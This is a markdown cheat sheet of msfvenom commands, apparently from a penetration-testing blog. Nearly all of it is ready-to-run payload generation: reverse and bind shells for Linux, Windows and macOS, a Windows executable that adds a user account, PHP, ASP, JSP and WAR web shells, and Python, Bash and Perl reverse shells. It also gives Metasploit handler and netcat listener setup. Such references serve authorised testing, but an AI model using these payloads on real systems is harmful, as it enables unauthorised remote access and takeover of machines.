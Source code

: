 ```yaml
---
title:  "Msfvenom Payload Cheat Sheet"
header: "Msfvenom Payload Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Msfvenom
---
```


Msfvenom (replaced the former msfpayload and msfencode tools) and is a tool that can be used to generate payloads as standaline files and encode them if needed. Everybody likes shells, right?

# Usage  
***

Insert picture here

# Basic Commands  
***
#### List available payloads  
`msfvenom -l`

#### Encoding Payloads  
`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

# Handler Setup  
***
#### Meterpreter  
`msfconsole -q`  
`use exploit/multi/handler`  
`set PAYLOAD <PAYLOAD>`  
`set LHOST <IP>`  
`set LPORT <IP>`  
`set ExitOnSession false`  
`exploit -j -z`  

#### Netcat  
`nc -nlvp <PORT>

# Linux  
***
#### Reverse Shell  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

#### Bind Shell  
`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf > shell.elf`

# Windows  
***
#### Reverse Shell  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### Bind Shell  
`msfvenom -p windows/meterpreter/bind_tcp RHOST= <IP> LPORT=<PORT> -f exe > shell.exe`

#### CMD Shell  
`msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe`

#### User Creation  
`msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe`

# Mac  
***
#### Reverse Shell  
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

#### Bind Shell  
`msfvenom -p osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho > shell.macho`

# Web Payloads  
***
#### PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php`  
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

#### ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp`

#### JSP  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp`

#### WAR  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`

# Scripting Payloads  
***
#### Python  
`msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py`

#### Bash  
`msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh`

#### Perl  
`msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl`
